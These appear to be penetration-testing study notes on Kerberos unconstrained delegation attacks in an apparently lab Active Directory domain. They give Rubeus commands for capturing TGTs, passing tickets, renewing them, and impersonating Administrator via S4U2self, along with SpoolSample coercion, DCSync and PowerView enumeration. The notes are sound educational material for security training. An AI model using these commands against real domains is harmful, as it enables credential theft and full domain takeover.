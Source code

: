 # Main Idea of Attack
We are waiting users or forcing computers to authenticate to us, that enable us to extract the TGT ticket that would be used in whatever we want to. 

# Key prerequisites 
(what you need to exploit)
you  need one of these:
- **Control of the machine process or machine account** that is trusted for unconstrained delegation (i.e., **administrative** or SYSTEM access to the server where users authenticate), **or**
- **Control of the service account credentials** in case the SPN is registered to a domain account (and you can act as that account on the host).

# UnConstrained Delegation types
- Computers unconstriand Delegation
- Users unconstrained Delegation

---
## Computers unconstriand Delegation
**Attack Targets**:
- **Target Domain cotrollers, so you can do `DCsync` attack.**
- **Target other computers in AD, so you can access other services to elevate your privileges**

### Targeting DC
If conditions are meet and then a Domain Administrator subsequently logs in, we will be able to extract their TGT and use it to move laterally and compromise other machines, including Domain Controllers. [Rubeus](https://github.com/GhostPack/Rubeus) is the go-to tool for this attack. As a local administrator, Rubeus can be run to monitor stored tickets. If a TGT is found within a TGS ticket, Rubeus will display it to us.
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

A few moments later, `Sarah Lafferty` connects to the compromised server. Rubeus retrieves Sarah's copy of the TGT that was embedded in her TGS ticket and displays it to us encoded in base64
```powershell
[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 8/14/2020 11:06:40 AM UTC - Found new TGT:

  User                  :  sarah.lafferty@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:06:37 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFmTCCBZWgAwIBBaEDAgEWooIEgjCCBH5hggR6MIIEdqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQsMIIEKKADAgESoQMCAQKiggQaBIIEFr7cTE+mYOQsYF69H0dnaQwX2Iy/dB0k91uEBGQh/Dk0lm12PzkVgX<SNIP>
```

So we will use this TGT to access the Domain Controller's `CIFS` service, for example. The `/ptt` option/flag is used to pass the received ticket into memory so that it can be used for future requests.
```powershell
.\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.INLANEFREIGHT.local /ptt
```
Once we have the TGS or the TGT we can effectively list the contents of the Domain Controller file system as shown in the following command.
```
dir \\dc01.inlanefreight.local\c$
```

we can also use the [renew action](https://github.com/GhostPack/Rubeus#renew) to get a brand new TGT instead of a TGS ticket:
```powershell
.\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt
```


We could also get a TGS ticket for the `LDAP` service and ask for synchronization with the DC to get all the users' password hashes.

Use [SpoolSample PoC](https://github.com/leechristensen/SpoolSample) or `coarce` to force other computers to authenticate to you, so you can extract the hash.

### Target other computers/users
Other computers can't do DCsync, but they are valuble objects that we should give attention to. We can request their TGS to access other resources in AD.

If the target computer is not a domain controller, or if we want to execute attacks other than `DCSync`, we can use `S4U2self` to obtain a Service Ticket on behalf of any user we want to impersonate.
With the ticket captured from `DC01` using `Rubeus monitor` and `SpoolSample` we can use `Rubeus s4u /self` to forge a service ticket for any service. Let's create a ticket to connect through SMB using the `CIFS` service. We will need to use `Rubeus s4u /self`, set the alternative service to `CIFS`, and use the ticket we have:
```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.inlanefreight.local /ptt /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCB<SNIP>
```

---
## Users unconstrained Delegation

### Enumeration
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"

distinguishedname     : CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
objectclass           : {top, person, organizationalPerson, user}
name                  : sqldev
objectsid             : S-1-5-21-2974783224-3764228556-2640795941-1110
serviceprincipalname  : MSSQL_svc_dev/inlanefreight.local:1443
```
### Exploit
This attack aims to create a DNS record that will point to our attack machine. This DNS record will be a fake computer in the Active Directory environment. Once this DNS record is registered, we will add the SPN `CIFS/our_dns_record` to the account we compromised, which is in an unconstrained delegation. So, if a victim tries to connect via SMB to our fake machine, it will ship a copy of its TGT in its TGS ticket since it will ask for a ticket for `CIFS/our_registration_dns`. This TGS ticket will be sent to the IP address we chose when registering the DNS record, i.e., our attack machine. All we have to do then is extract the TGT and use it.